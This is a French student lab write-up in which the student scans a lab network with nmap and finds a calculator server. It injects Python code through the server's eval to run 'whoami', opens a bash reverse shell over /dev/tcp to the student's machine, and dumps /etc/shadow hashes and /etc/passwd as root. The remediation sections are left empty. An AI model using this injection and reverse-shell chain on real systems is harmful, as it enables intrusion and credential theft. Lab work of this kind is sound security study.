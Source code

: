 . Reconnaissance

🌞 Déterminer

à quelle IP ce client essaie de se co quand on le lance

```
10.1.1.2
```

à quel port il essaie de se co sur cette IP

```
13337
```
vous DEVEZ trouver une autre méthode que la lecture du code pour obtenir ces infos

```
Lecture wireshark : voir "determiner.pcapng"
```


🌞 Scanner le réseau

```
PS C:\Users\vince> nmap -p 13337 10.33.64.0/20 --min-parallelism 10 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-24 10:28 Paris, Madrid (heure dÆÚtÚ)
Stats: 0:00:03 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 3.38% done; ETC: 10:29 (0:01:26 remaining)
Stats: 0:02:23 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 80.32% done; ETC: 10:31 (0:00:35 remaining)
Stats: 0:02:26 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 81.07% done; ETC: 10:31 (0:00:34 remaining)
Stats: 0:02:51 elapsed; 0 hosts completed (0 up), 4095 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 96.92% done; ETC: 10:31 (0:00:05 remaining)
Stats: 0:03:03 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 27.31% done; ETC: 10:31 (0:00:16 remaining)
Stats: 0:03:27 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.31% done; ETC: 10:32 (0:00:26 remaining)
Stats: 0:04:02 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.93% done; ETC: 10:32 (0:00:14 remaining)
Stats: 0:04:32 elapsed; 3207 hosts completed (888 up), 888 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 100.00% done; ETC: 10:33 (0:00:00 remaining)
Nmap scan report for 10.33.64.9
Host is up (0.0050s latency).
```

```
voir : tp5_nmap.pcapng et tp5_nmap.txt
```

🌞 Connectez-vous au serveur

```
Nmap scan report for 🌞10.33.66.78🌞
Host is up (0.045s latency).

PORT      STATE SERVICE
13337/tcp 🌞open🌞  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)
```

```
PS D:\Reseau-Linux\R-seau_B2\TP5> python .\client.py
Veuillez saisir une opération arithmétique : 4+4
'8'
PS D:\Reseau-Linux\R-seau_B2\TP5>
```

```
L'application sert à faire des opérations
```

🌞 Injecter du code serveur

Elements modifiés
```
import os
userMessage = "__import__('os').popen('whoami').read()"
```

```
PS D:\Reseau-Linux\R-seau_B2\TP5> python .\client.py
'root\n'
PS D:\Reseau-Linux\R-seau_B2\TP5>
```

3. Reverse shell
🌞 Obtenez un reverse shell sur le serveur

```
```
PS D:\Reseau-Linux\R-seau_B2\TP5> ncat 10.33.66.78 13338
dfg
Hello__import__('os').popen('bash -i >& /dev/tcp/10.33.73.77/6666 0>&1').read()
```

```
PS D:\Reseau-Linux\R-seau_B2\TP5> ncat -lvp 6666
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 10.33.66.78:41492.
bash: cannot set terminal process group (1409): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]# ls
ls
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@localhost /]#
```

🌞 Pwn

```
[root@localhost /]# cat /etc/shadow    
root:$6$.8fzl//9C0M819BS$Sw1mrG49Md8cyNUn0Ai0vlthhzuSZpJ/XVfersVmgXDSBrTVchneIWHYHnT3mC/NutmPS03TneWAHihO0NXrj1::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20010::::::
dbus:!!:20010::::::
tss:!!:20010::::::
sssd:!!:20010::::::
sshd:!!:20010::::::
chrony:!!:20010::::::
it4:$6$HTSBHGoZflJxXu9u$i54higNbS5p2zVOLWP6P33D39SyWRrEAOjzh97xRa15KzJU3jZfBi/XIPY3FKDoYoSvo1FrirBwNcgmEVpaPK/::0:99999:7:::
tcpdump:!!:20010::::::
```

```
[root@localhost /]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
sssd:x:998:996:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
chrony:x:997:995:chrony system user:/var/lib/chrony:/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin

II. Remédiation
🌞 Proposer une remédiation dév




🌞 Proposer une remédiation système

